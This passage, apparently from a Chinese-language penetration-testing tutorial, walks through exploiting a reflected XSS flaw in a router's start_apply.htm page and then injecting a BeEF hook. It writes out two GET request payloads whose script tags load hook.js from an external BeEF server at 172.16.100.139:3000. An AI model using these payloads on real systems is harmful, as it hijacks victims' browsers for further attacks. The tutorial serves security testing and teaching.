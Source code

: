 完美！ 我们现在知道我们可以在这个点做一个基础的XSS负载注入。我们是幸运的，没有遇到任何的限制和过滤。让我们来看看如何伤害更多，插入BeEF的hook 负载到易受攻击的参数中。毕竟，在浏览器中弹窗能暴露多少风险呢。

#### 4.6.2.1 BeEF XSS负载使用简介

BeEF是一个利用web浏览器的工具，可以使用客户端攻击向量和社会工程学技术通过易受攻击的应用参数在受害者环境下完成攻击。当受害者执行它的可以进行更深入利用的负载时，BeEF将会hook一个或者多个浏览器。本节将会扩展我们发现的XSS漏洞，并让他执行BeEF的hook，然和，接触一些基本使用。

BeEF功能强大，可以证明XSS的威力：

<br>&emsp;&emsp;&emsp;1. 现在，我们已经演示了XSS的基本利用，我们准备将他提升一个档次，并尝试使用相同格式的BeEF负载，将后面的两个作为以下请求：

```javascript
http://192.168.1.1/start_apply.htmnext_page= '+<script src=//172.16.100.139:3000/hook.js></script>+'
```

<br>&emsp;&emsp;&emsp;2. 使用这个GET请求，我们可以从下面的图中看到请求的响应已经被搞成一个破坏的页面：

![](../img/4-6/4-6-2-1-2.png)

<br>&emsp;&emsp;&emsp;3. 再一次，我们破坏了一些JavaScript代码片段，预防浏览器执行部署在外部的BeEF服务器上的JavaScript代码。机会是我们需要终止意向页面，并开始我们自己的
\<script\>标签来请求我们外部的BeEF服务器。我们可以尝试添加一个开或者闭的script标签到一个参数上，添加引号，然后尝试使用以下GET请求调用我们的BeEF hook负载：

```javascript
http://192.168.1.1/start_apply.htmnext_page=param<script></script>+"<script src=http://172.16.100.139:3000/hook.js></script>
```

使用XSS负载的fuzz参数，我们可以手动注入XSS负载，并且可以使用像SecList这样的词表来生成负载，这样可以帮助我们加速发现漏洞的过程。

<br>&emsp;&emsp;&emsp;4. 当我们发送GET请求并查看浏览器响应，它似乎也输出了被破坏的JavaScript；然而，如果我们看一下ZAP，我们可以看到浏览器转发请求到我们的BeEF服务器了：

![](../img/4-6/4-6-2-1-4.png)